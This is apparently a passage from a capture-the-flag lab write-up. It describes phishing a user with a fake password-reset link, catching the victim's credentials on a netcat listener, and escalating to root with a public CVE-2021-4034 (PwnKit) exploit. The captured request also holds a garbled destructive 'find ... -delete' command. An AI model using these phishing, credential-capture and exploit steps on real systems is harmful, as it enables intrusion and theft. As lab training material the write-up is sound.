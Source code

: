 ```
Hi Brian,

Please follow this link to reset your password: http://192.168.49.55/

Regards,

.
250 2.0.0 Ok: queued as 5B4294543F

500 5.5.2 Error: bad syntax
```

We got a listener setup:
```
nc -lvnp 80        
listening on [any] 80 ...
connect to [192.168.49.55] from (UNKNOWN) [192.168.55.137] 47968
POST / HTTP/1.1
Host: 192.168.49.55
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 207
Content-Type: application/x-www-form-urlencoded

first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE  
```

We have credentials now!

brian.moore:EternaLSunshinE

cve-2021-4034-poc.c
https://github.com/arthepsy/CVE-2021-4034
```
brian.moore@postfish:/tmp$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
brian.moore@postfish:/tmp$ ./cve-2021-4034-poc
# whoami
root
# cd /root 
# ls
disclaimer  disclaimer.sh  mail.sh  proof.txt  snap
# cat proof.txt
```

## Correct Method

https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/postfish

A Google search on 'postfix disclaimer' results in the following being the first result on Google:
https://www.howtoforge.com/how-to-automatically-add-a-disclaimer-to-outgoing-emails-with-altermime-postfix-on-debian-squeeze
![[spaces_-MFlgUPYI8q83vG2IJpI_uploads_git-blob-4f92fb14bc9955dc6b467e804dbaf4e51a229330_image.webp]]

